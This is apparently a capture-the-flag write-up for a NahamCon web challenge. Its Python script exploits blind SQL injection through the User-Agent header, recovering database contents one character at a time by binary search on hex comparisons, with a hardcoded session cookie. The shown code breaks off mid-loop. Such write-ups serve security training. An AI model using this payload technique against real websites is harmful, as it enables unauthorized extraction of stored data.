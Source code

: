 ### Intro

```
Author: @congon4tor#2334

We just added analytics to our blogging website. Check them out!
```

### Solve

The developer logging every user information of `User-Agent` when the user is reading a blog post, and the `User-Agent` is vulnerable to SQL Injection, to fully exploiting this I made python scripts to make my life easier 🙌

```
import requests
import re
import os
from bs4 import BeautifulSoup
session = requests.session()

url = "http://challenge.nahamcon.com:30790/post/xxx"

headers = {
"Cache-Control": "max-age=0", 
"Origin": "http://challenge.nahamcon.com:30790", 
"Upgrade-Insecure-Requests": "1", 
"User-Agent": "Mozilla' AND (SELECT hex(substr({},{},1)) {})<=hex(char({})) AND '1'='1",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", 
"Accept-Language": "en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5", 
"Connection": "close",
"Cookie": "authtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFjYWIifQ.vJxGky4BNE4jUeFLIr9Fp7pQHxG-YhE6fJHRAJCoY7o"
}

pyld = "Mozilla' OR (SELECT hex(substr({},{},1)) {})<=hex(char({})) AND '1'='1"
def check(data):
	return re.search("Satu kaki", data)

def blind(kolom,table):
    passwd = ""
    idx = 1

    while (True):
        lo = 1
        hi = 255
        temp = -1
        while(lo <= hi):
            mid = (lo + hi) / 2
            headers["User-Agent"]=pyld.format(str(kolom),str(idx),str(table),int(mid))
            # print(headers)
            res = requests.get(url,headers=headers)
            
            res = requests.get('http://challenge.nahamcon.com:30790/profile',headers=headers)
            # print(res.text)
            bs=BeautifulSoup(res.text, "lxml")
            tbl = bs.find("table")
            last_row = tbl("tr")[-1]("td")[-1].get_text()
            # print(last_row)

            if last_row=='1':
               hi = mid-1
               temp = mid
            else:
               lo = mid+1
```